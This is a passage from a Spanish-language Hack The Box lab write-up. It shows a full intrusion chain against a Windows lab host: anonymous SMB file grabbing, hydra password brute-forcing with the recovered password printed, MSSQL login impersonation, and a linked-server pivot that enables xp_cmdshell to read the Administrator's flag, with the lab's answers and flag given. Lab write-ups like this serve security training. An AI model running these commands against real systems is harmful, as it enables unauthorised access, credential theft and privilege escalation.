|_Not valid after:  2056-05-22T14:30:56
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-22T14:33:48+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2026-05-21T14:30:46
|_Not valid after:  2026-11-20T14:30:46
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2026-05-22T14:33:08+00:00
```

He identificado varios puertos abiertos, incluidos SMB (445/tcp) y Microsoft SQL Server (1433/tcp). Intentemos conectarnos al servicio SMB usando una sesión anónima.

```
smbclient -N -L //10.129.203.10
cd it
recurse ON
prompt OFF
mget *
```

- **recurse ON**: Activa el modo recursivo. Le dice a la herramienta que no se limite a la carpeta actual, sino que también entre en todas las **subcarpetas** que encuentre.
- **prompt OFF**: Desactiva las preguntas de confirmación. Evita que la terminal te pregunte _"¿Estás seguro de que quieres descargar este archivo? (s/n)"_ por cada elemento. Todo se baja en modo automático.
- **mget** _: Significa _Multiple Get_ (Obtener Múltiples) y el asterisco (_) es un comodín que significa "todo". Inicia la descarga de **absolutamente todos** los archivos y carpetas del directorio.

<p align="center"> 

</p>

Todo esto lo he guardado dentro de una carpeta llamada **users**, así quedaría:

```
tree
```

<p align="center"> 

</p>

answer: **random.txt**

2. **Enumerate the target and find a password for the user Fiona. What is her password?**

Vamos a intentar realizar un ataque de fuerza bruta al servidor MSSQL con el usuario `fiona`utilizando las credenciales que se encuentran en el `creds.txt` de la carpeta Fiona.png

```
hydra -l fiona -P creds.txt -t 1 rdp://10.129.203.10
```

<p align="center"> 

</p>

Credenciales --> **fiona**: **48Ns72!bns74@S84NNNSl**

A continuación probaremos las nuevas credenciales.

```
impacket-mssqlclient fiona@$target -windows-auth
```

<p align="center"> 

</p>

Nos logueamos sin problema!

answer: **48Ns72!bns74@S84NNNSl**

3. **Once logged in, what other user can we compromise to gain admin privileges?**

Una vez dentro de la bbdd SQL realizaremos los siguientes comandos 

```
SELECT name FROM master.dbo.sysdatabases
```

>Sirve para obtener una lista con los nombres de **todas las bases de datos** que existen en ese servidor.

<p align="center"> 

</p>

```
SELECT * FROM TestingDB.INFORMATION_SCHEMA.TABLES;
```

>Este comando sirve para **listar todas las tablas** que existen dentro de una base de datos específica, que en este caso se llama **TestingDB**.

Pero no tiene ninguna :(

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

>Este comando sirve para averiguar **qué usuarios de SQL Server tienen el poder de permitir que otros actúen en su nombre**. En términos técnicos, busca qué cuentas han otorgado el permiso de **suplantación de identidad (IMPERSONATE)**.

<p align="center"> 

</p>

```
EXECUTE AS LOGIN = 'john';
```

Este comando sirve para logearse como **john**

```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

<p align="center"> 

</p>

John no tiene privilegios de administrador del sistema directamente, pero podemos usar el servidor vinculado para elevar nuestros privilegios.

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
```

<p align="center"> 

</p>

Te peguntaras, como encuentro ese servidor vinculado, mediante el siguiente comando:

```
Select name, product, provider, data_source, is_rpc_out_enabled FROM sys.servers;
```

<p align="center"> 

</p>

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
```

>Con este comando compruebo si la cuenta vinculada **LOCAL.TEST.LINKED.SRV** tiene permiso de admin.

<p align="center"> 

</p>

answer: **john**

4. **Submit the contents of the flag.txt file on the Administrator Desktop.**

En el archivo `information.txt`vemos una nota:

```
To do:
- Keep testing with the database.
- Create a local linked server.
- Simulate Impersonation.   
```

Como sabemos cual es nuestra cuenta vinculada, llevaremos a cabo los siguientes comando: 

```
EXEC ('sp_configure ''show advanced options'', 1') AT [LOCAL.TEST.LINKED.SRV]
```

>Este comando solamente desbloquea el acceso visual y administrativo a configuraciones restringidas

```
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
```

>Este comando es el que **guarda, aplica y hace efectivos** los cambios de configuración que solicitaste en el paso anterior.

```
EXEC ('sp_configure ''xp_cmdshell'',1') AT [LOCAL.TEST.LINKED.SRV]
```

>Este comando es el **disparador de la vulnerabilidad**. Es el paso donde le ordenas a SQL Server que active **xp_cmdshell**, que es una función interna diseñada para **conectar la base de datos directamente con la terminal de comandos de Windows (cmd.exe)**.

```
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
```

>Este comando es el que **guarda, aplica y hace efectivos** los cambios de configuración que solicitaste en el paso anterior.

```
EXEC ('xp_cmdshell ''whoami''') AT [LOCAL.TEST.LINKED.SRV]
```

>Este comando representa el **éxito total de la escalada de privilegios**.

<p align="center"> 

</p>

```
EXEC ('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
```

>Este comando te soltará la última flag. 

answer: **`HTB{46u$!n9_l!nk3d_$3rv3r$}`**